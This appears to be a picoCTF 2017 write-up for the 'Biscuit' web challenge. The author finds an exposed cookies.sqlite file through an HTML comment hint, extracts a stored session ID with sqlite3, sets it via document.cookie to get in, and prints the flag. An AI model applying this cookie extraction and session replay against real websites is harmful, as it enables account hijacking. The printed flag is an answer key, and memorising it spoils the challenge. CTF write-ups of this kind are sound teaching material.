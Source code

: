 <!-- This markdown file is writeup template. -->

## Biscuit 75pt

### Problem
> Your friend has a personal website. Fortunately for you, he is a bit of a noob when it comes to hosting a website. Can you find out what he is hiding? [Website](http://shell2017.picoctf.com:54399/).

### Answer
Let's access the website and view the source. I found that `cookies.sqlite` is hidden in `private`. In addition, a hint for accessing it is described in the style tag.

```html
<!-- Storing stuff in the same directory as your web server doesn't seem like a good idea -->
<!-- Thankfully, we use a hidden one that is super PRIVATE, to protect our cookies.sqlite file -->
<style>
body{
	background-image: url("private/image.png");
}
</style>
```

By downloading `private/cookies.sqlite`, let's try and extract the cookies from the file.


```sql
$ sqlite3 cookies.sqlite
SQLite version 3.11.0 2016-02-15 17:29:24
Enter ".help" for usage hints.
sqlite> SELECT * FROM sqlite_master WHERE type='table';
table|moz_cookies|moz_cookies|2|CREATE TABLE moz_cookies (id INTEGER PRIMARY KEY, baseDomain TEXT, appId INTEGER DEFAULT 0, inBrowserElement INTEGER DEFAULT 0, name TEXT, value TEXT, host TEXT, path TEXT, expiry INTEGER, lastAccessed INTEGER, creationTime INTEGER, isSecure INTEGER, isHttpOnly INTEGER, CONSTRAINT moz_uniqueid UNIQUE (name, host, path, appId, inBrowserElement))
sqlite> SELECT * FROM moz_cookies;
1|localhost|0|0|ID|F3MAqpWxIvESiUNLHsflVd|localhost|/|1489365457|1489279130600290|1489279057101857|0|0
sqlite> .quit
```

Using Javascript to edit document.cookie, we get the flag :)

```
> document.cookie = "ID=F3MAqpWxIvESiUNLHsflVd"
```

![shot01](Screenshot01.png)

### Flag
7480ef727bda99d85a218b75c3f3157f
